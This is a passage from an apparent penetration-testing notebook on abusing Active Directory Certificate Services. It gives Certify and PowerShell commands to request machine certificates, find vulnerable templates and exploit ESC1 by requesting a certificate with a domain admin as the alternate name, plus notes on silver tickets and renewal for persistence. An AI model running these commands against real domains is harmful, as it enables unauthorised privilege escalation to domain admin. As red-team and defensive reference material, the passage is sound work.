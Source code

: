 ```text
 # While elevated
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:Machine /machine
```

With access to a machine account certificate an adversary can use S4U2Self to obtain a Kerberos ticket to any service on the host \(see [RBCD Abuse](file:///mnt/5658F7A858F78551/PROGS/LINUX/DOCS/note/sites/notebook/ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse.html#resource-based-constrained-delegation-rbcd)\) or generate a silver ticket.

### Certificate Renewal <a id="certificate-renewal"></a>

* Certificate template **validity period** - determines how long an issued certificate can be used.
* Certificate template **renewal period** - determines a window of time _before the certificate expires_ where an account can renew it from the issuing certificate authority.

An adversary can renew the compromised certificate before the validity period expires, and so that extend their access to AD without requesting additional ticket enrollments.

## Domain Escalation via Certificates <a id="domain-escalation-via-certificates"></a>

##  <a id="domain-escalation-via-certificates"></a>

Discover vulnerable templates:

```text
Cmd > .\Certify.exe find /vulnerable
```

### Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs \(ESC1\) <a id="modifiable-san-smart-card-logon-or-client-authentication-or-pkinit-client-authentication-ekus-esc-1"></a>

Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon \(`1.3.6.1.4.1.311.20.2.2`\) or Client Authentication \(`1.3.6.1.5.5.7.3.2`\) or PKINIT Client Authentication \(`1.3.6.1.5.2.3.4`\) EKUs.

Find template with this misconfiguration:

```text
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```

Request a certificate specifying the `/altname` as a domain admin:

```text
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:VulnTemplate /altname:DomAdmin
```

### Modifiable SAN + Any Purpose EKU \(ESC2\) <a id="modifiable-san-any-purpose-eku-esc-2"></a>
